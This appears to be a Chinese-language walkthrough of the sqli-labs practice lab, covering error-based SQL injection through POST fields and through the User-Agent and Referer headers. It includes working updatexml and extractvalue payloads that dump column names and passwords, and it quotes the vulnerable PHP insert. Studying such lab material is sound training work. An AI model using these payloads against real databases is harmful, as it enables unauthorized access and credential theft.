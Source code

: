 `uname=admin&passwd=admin' and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users' and column_name not in('user_id','user','first_name','last_name','avatar','last_login','failed_login')),'~'),1)`

尝试输出密码

`uname=admin&passwd=admin' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) --+ &submit=Submit `

却发现了错误

[![0j3tBV.jpg](https://s1.ax1x.com/2020/10/18/0j3tBV.jpg)](https://imgchr.com/i/0j3tBV)

尝试加一层select

`uname=admin&passwd=admin' and updatexml(1,concat('~',(select password from (select password from users where username='admin')),'~'),1) --+&submit=Submit`

发现提示：every derived table must have its own alias

需要给查询的表添加一个别名

`uname=admin&passwd=12' and updatexml(1,concat('~',(select password from (select password from users where username='admin')a),'~'),1) --+&submit=Submit`

***
# less 18(基于错误的用户代理，头部POST注入)[存疑]

*  原理

http头部注入，uagent字段

*  步骤

1.查看源代码，发现用户名和密码都被做了check_input检测，但是新出现了一个注入点user-agent,

`$uagent = $_SERVER['HTTP_USER_AGENT'];`

`$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";`

对uagent没有过滤便对其向数据库进行了插入，所以可以用bp对user_agent进行注入，将其改为payload

爆库：

`'and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '`

[![0j37ut.jpg](https://s1.ax1x.com/2020/10/18/0j37ut.jpg)](https://imgchr.com/i/0j37ut)


其余步骤同报错注入

***
# less 19(基于头部的Referer POST报错注入)

*  原理

对http请求头部referer字段没有进行过滤就直接插入数据库，导致可以抓包改包从referer进行payload注入
